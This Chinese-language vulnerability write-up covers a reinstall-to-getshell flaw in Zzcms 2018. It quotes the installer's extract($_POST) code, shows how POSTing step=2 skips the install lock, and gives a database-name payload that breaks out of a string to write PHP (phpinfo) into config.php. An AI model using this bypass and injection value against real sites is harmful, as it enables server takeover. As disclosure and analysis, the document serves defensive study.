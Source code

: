 ```yaml
---
title: "Zzcms 2018 最新版重装getshell"
id: zhfly3311
---
```


# Zzcms 2018 最新版重装getshell

## 一、漏洞简介

源码信息：Zzcms 2018

问题文件： \zzcms\install\index.php

漏洞类型：重装getshell

站点地址：http://www.zzcms.net/

## 二、漏洞影响

Zzcms2018

## 三、复现过程

### 0x01攻击分析

在文件\ zzcms \ install \ index.php文件的第9-10行中$ _POST使用了提取变量注册的方法进行变量的初始化。

```
if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
if($_GET) extract($_GET, EXTR_SKIP);
$submit = isset($_POST['submit']) ? true : false;
$step = isset($_POST['step']) ? $_POST['step'] : 1; 
```

分析代码可以知道，setp为空的时候，初始化初始化的变量1，然后进入到step_1.php，有install.lock，就不能重装，所以我们这里直接POST step = 2绕过

```
<?php
switch($step) {
        case '1'://协议
                include 'step_'.$step.'.php';
        break;
        case '2'://环境
                $pass = true;
                $PHP_VERSION = PHP_VERSION;
                if(version_compare($PHP_VERSION, '4.3.0', '<')) {
                        $php_pass = $pass = false;
                } else {
                        $php_pass = true;
                }
                $PHP_MYSQL = '';
                if (extension_loaded('mysqli') || extension_loaded('mysql')) {
                        $PHP_MYSQL = '支持';
                        $mysql_pass = true;
                } else {
                        $PHP_MYSQL = '不支持';
                        $mysql_pass = $pass = false;
                }
        $PHP_GD = '';
        if(function_exists('imagejpeg')) $PHP_GD .= 'jpg';
        if(function_exists('imagegif')) $PHP_GD .= ' gif';
        if(function_exists('imagepng')) $PHP_GD .= ' png';
                if($PHP_GD) {
                        $gd_pass = true;
                } else {
                        $gd_pass = false;
                }
                $PHP_URL = @get_cfg_var("allow_url_fopen");//是否支持远程URL，采集有用
                $url_pass = $PHP_URL ? true : false;
                include 'step_'.$step.'.php';
        break;
        case '3'://查目录属性
                include 'step_'.$step.'.php';
        break;
        case '4'://建数据库
                include 'step_'.$step.'.php';
        break;
        case '5'://安装进度
                function dexit($msg) {
                        echo '<script>alert("'.$msg.'");window.history.back();</script>';
                        exit;
                }

```
 $conn=connect($db_host,$db_user,$db_pass,'',$db_port);
            if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
            $db_name or dexit('请填写数据库名');
            if(!select_db($db_name)) {
                    if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
            }
            $url=str_replace("'",'',$url);
            //保存配置文件
            $fp="../inc/config.php";
            $f = fopen($fp,'r');
            $str = fread($f,filesize($fp));
            fclose($f);
            $str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
            $str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
            $str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
            $str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
            $str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
            $str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
            $str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
            $f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
            fputs($f,$str);//把替换后的内容写入文件
            fclose($f);
            //创建数据
            include 'step_'.$step.'.php';
            break;
    case '6'://安装成功
            include 'step_'.$step.'.php';
    break; 
``` `}` 
```

![image](../img/d9b806c63142609cdc2c7ed422b3bb2f.png)

```
<?php
if(@$step==3){
$token = md5(uniqid(rand(), true));    
$_SESSION['token']= $token; 
?> 
```

step_3.php文件中有一个创建的令牌，后面创建数据库的时候验证，所以从步骤= 2，一步一步偶。

从上面的代码文中知道$ url = str_replace（“'”，“，$ url）; 把单引号替换为空了，然后的fputs写INC / config.php的配置文件中所以这里通过$ DB_NAME来写到配置文件。

### 0×02复漏洞现

在数据库配置页面，数据库名填写：

zzcms%27%29%3bphpinfo%28%29%3b%2f%2f 本机创建zzcms');phpinfo();//的数据库

![image](../img/c25c1c0901d3e8ebfd7777d00017e639.png)

因为本地有JS验证，所以先把数据库名改成123，bp抓到包以后在修改成zzcms%27%29%3bphpinfo%28%29%3b%2f%2f

![image](../img/2b6d082c24895074205cd04feb044f02.png)

成功写入到配置文件

![image](../img/94d164e53287a342c29350fc20fc350a.png)

![image](../img/ddaae8f11f5fa37c814e77b6edd2b310.png)

![image](../img/af8b7558d1336948d8a3358f0b663500.png)